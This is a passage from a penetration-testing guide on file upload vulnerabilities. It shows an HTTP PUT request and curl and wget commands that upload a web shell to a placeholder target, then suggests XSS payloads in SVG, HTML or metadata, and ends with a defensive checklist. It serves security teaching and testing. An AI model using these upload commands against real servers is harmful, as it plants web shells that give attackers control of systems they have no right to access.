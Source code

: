 ### Uploading files with PUT

Some servers allow you to upload files to certain routes using the `PUT` method via HTTP.
You can query available methods with `OPTIONS` or just test the method  directly.
In any case the request would look something like this:

```http
PUT {{ path /images/ }}{{ web-shell-file shell.php }} HTTP/1.1
Host: {{ rhost target.net }}
Content-Type: {{ content-type application/x-httpd-php }}
Content-Length: 49

{{ payload [...Your web-shell of choice...] }}
```

You can also upload it from the command line for extra style points:

<smart-tabs variable="curl-vs-wget" :tabs="{'curl': 'Via curl', 'wget': 'Via wget'}">
<template v-slot:curl>

```bash
curl -fsSL -T "{{ web-shell-file shell.php }}" "https://{{ rhost target.net }}{{ path /images/ }}{{ web-shell-file shell.php }}"
```

</template>
<template v-slot:wget>

```bash
wget --method PUT --body-file=./{{ web-shell-file shell.php }} "https://{{ rhost target.net }}{{ path /images/ }}{{ web-shell-file shell.php }}" -O - -nv
```

</template>
</smart-tabs>


### Exploiting client-side vulnerabilities

If you can upload `svg` or `html` files, you could try to place some [XSS](/web/client-side/xss) payloads.
You might also be able to sneak some XSS payloads (possibly blind) on uploaded files metadata.

### Other kind of controls

When testing file upload functionalities, there are more checks that need to be performed.
Because, even if no malicious code gets executed, harm can still be made.
The following is a checklist of exploitable and important conditions to look for:

- [ ] Size on file uploads should be limited to prevent DoS attacks.
- [ ] Antivirus software should scan the uploaded files to prevent malware from being distributed through abusing the application. In general be cautious with uploaded content, because ilegal stuff or adult content is always susceptible to be uploaded to any site. 
- [ ] Check for IDORs as they are pretty common when managing files.
- [ ] Some files should never be stored on the server (`.exe` files are only a risk for clients)

> Always remember to check OWASP's guide on [Unrestricted File Uploads](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)


[^1]: Port Swigger Web Security Academy: https://portswigger.net/web-security/file-upload
[^2]: Wikipedia - List of file signatrues: https://en.wikipedia.org/wiki/List_of_file_signatures
[^3]: Configure handlers on IIS: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/#configuration-sample